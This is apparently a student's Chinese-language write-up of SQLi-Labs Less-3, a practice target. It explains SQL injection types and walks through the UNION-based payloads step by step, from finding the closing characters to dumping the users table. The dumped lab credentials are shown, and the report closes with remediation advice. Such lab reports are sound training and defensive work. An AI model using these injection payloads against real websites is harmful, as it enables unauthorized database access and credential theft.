










SQLI-LAB报告

## 漏洞概要

SQL注入是一类高危漏洞，存在于与数据库相关的环境中，本质上是在数据与代码没有严格分离的环境下，将用户输入的内容作为可执行语句从而实现注入行为。SQL注入漏洞常见于未使用参数化查询、以拼接字符串方式构造 SQL 的场景。攻击者可通过SQL注入实现对数据库内容的访问，极易导致用户个人信息的泄露，和密码哈希撞库其他网站的用户，甚至承担法律责任。

SQL注入点大致可分为两种：GET型和POST型。GET型SQL注入的特点是以URL作为注入点，通过修改URL参数的方式完成注入攻击；POST型注入的特点是payload不在URL显现，而是通过修改POST请求体的内容。

SQL注入手法可分为六种：联合查询注入、报错注入、布尔盲注、时间盲注、堆叠注入、带外注入。联合查询注入和报错注入的特点是需要回显位，注入快速而精确；布尔盲注和时间盲注的特点是以页面变化的方式作为判断基准，在联合查询注入和报错注入失效时尝试布尔盲注和时间盲注；**堆叠注入**的特点是可以执行查询之外的操作，用";"结束查询语句，然后添加自己想要执行的SQL语句；**带外注入（OOB）**的特点是靠DNS/HTTP访问服务器时携带数据库信息，然后通过查看服务器log的方式得到需要的内容。

## 漏洞检测

0、判断数据库类型

1、检测数字型还是字符型

2、检测闭合方式

3、检测有无回显--盲注

4、检测过滤方式

## 打靶练习

LESS-3

尝试?id=1，页面正常回显

尝试用'闭合，报错You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'') LIMIT 0,1' at line 1说明是MySQL数据库，且闭合方式为')

尝试?id=a，页面返回空数据。字符型语句是 WHERE id = ('a')，a 是合法字符串，所以不报错、只是查不到数据，说明是字符型参数。

用order by 4试探查询位数，发现位数是小于4的值

继续用order by 3试探查询位数，确定查询位数是3

将1改为-1，构造payload：?id=-1') union select 1,2,3--+

找到回显位在2和3

构造payload：?id=-1') union select 1,2,database()--+

爆出当前库为security

构造payload：?id=-1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--+

爆出表名emails,referers,uagents,users

构造payload：?id=-1') union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()--+

爆出列名id,username,password

（注意表名要用字符串格式'users'）

构造payload：?id=-1') union select 1,2,group_concat(concat_ws(':',username,password)) from users--+

爆出username和password为Dumb:Dumb,Angelina:I-kill-you,Dummy:p@ssword,secure:crappy,stupid:stupidity,superman:genious,batman:mob!le,admin:admin,admin1:admin1,admin2:admin2,admin3:admin3,dhakkan:dumbo,admin4:admin4

## 总结

### 一、影响与危害

攻击者仅需对URL进行操作，无需任何验证，即可实现对数据库名、表名、username和password进行查询。本次已实际验证：读取到 users 表的全部 13 组 username 与 password 组合，库中另有 emails、referers、uagents 三张表同样可被读取。

其中包含 `admin:admin` 这类可直接登录的后台账号，且密码以弱口令形式存储，攻击者无需破解即可直接使用。对用户的个人信息造成了泄露，攻击者可能利用username和password在其他网站进行撞库，影响范围超出了网站本身。

**利用门槛**：仅需浏览器与一次 URL 参数修改，无需任何专业工具或知识。

### 二、修复建议

1、根本修复：
   对该参数使用预编译（参数化查询）。其原理是数据库先确定语句结构、
   再将参数作为纯数据传入，用户输入永远不会进入 SQL 语法层被解析。

2、为什么不能用转义/过滤替代：
   转义引号、过滤关键字属于黑名单思路，只要存在一个未覆盖的绕过方式
   即告失效。这是"堵"而不是"隔离"。

3、临时缓解（代码改不动时）：
   - 该接口的数据库账号降权，仅保留必要的 SELECT 权限
   - 关闭详细报错回显（当前页面直接返回 SQL 报错，本身即信息泄露）
   - WAF 拦截 union select、information_schema 等特征

4、同类问题排查：
   按"是否存在字符串拼接构造 SQL"对全部接口做一次检索，注入点通常不止一处。

5、修复验证方法：
   用原 payload 复测：?id=-1') union select 1,2,group_concat(concat_ws(':',username,password)) from users--+
   预期：不再回显 username 与 password 的组合，返回参数错误或正常业务结果。
   并需更换手法复测（报错注入、布尔盲注），确认全部手法失效，
   仅拦截 UNION 一种不视为修复完成。

### 三、延伸思考

**卡在哪**：

1、判断类型时用了 order by 数位数，一开始试 order by 4 报错、降到 3 才正常——这和 LESS-1、LESS-2 是同一个过程，但这次报错信息里多出来的括号让我意识到闭合方式不止一种。

2、本关的闭合方式和前两关都不同。LESS-1 是 `'`、LESS-2 不用闭合、LESS-3 是 `')`，一开始在 `'` 和 `')` 之间犹豫，是靠报错里的 `near ''1'') LIMIT 0,1'` 才确定的。

**学到什么**：

1、**报错信息里藏着原始语句的结构，能反推出闭合方式。**
   本关报错是 `near ''1'') LIMIT 0,1'`，里面出现了两个右括号——
   说明原语句不光有引号，引号外面还套了一层括号，即 `WHERE id = ('$id')`。
   所以闭合方式不是 `'`，而是 `')`：**先补上引号，再补上括号**。
   之前只觉得报错能判断数据库类型，这次发现它还能判断闭合方式。

2、**同一个操作（传 id=a）在 LESS-3 和 LESS-2 的表现完全不同，这个差别就是两种参数类型的本质区别。**

   | 关卡 | 原语句 | 传 id=a 的现象 | 说明 |
   |---|---|---|---|
   | LESS-3 | `WHERE id = ('$id')` | 返回空数据、不报错 | `a` 是合法字符串，SQL 合法，只是查不到 |
   | LESS-2 | `WHERE id = $id` | 报错 Unknown column 'a' | `a` 被当作**列名**去找，找不到才报错 |

   **判断依据**：报错 = 参数没被当字符串；不报错只是查不到 = 参数被当字符串处理。

3、**闭合的本质是"把原语句没关严的地方补上"。**
   三关连起来看规律很清楚：
   - LESS-1：`WHERE id = '$id'` → payload `1' union select...`（补引号）
   - LESS-2：`WHERE id = $id` → payload `-1 union select...`（不用补）
   - LESS-3：`WHERE id = ('$id')` → payload `1') union select...`（补引号+括号）
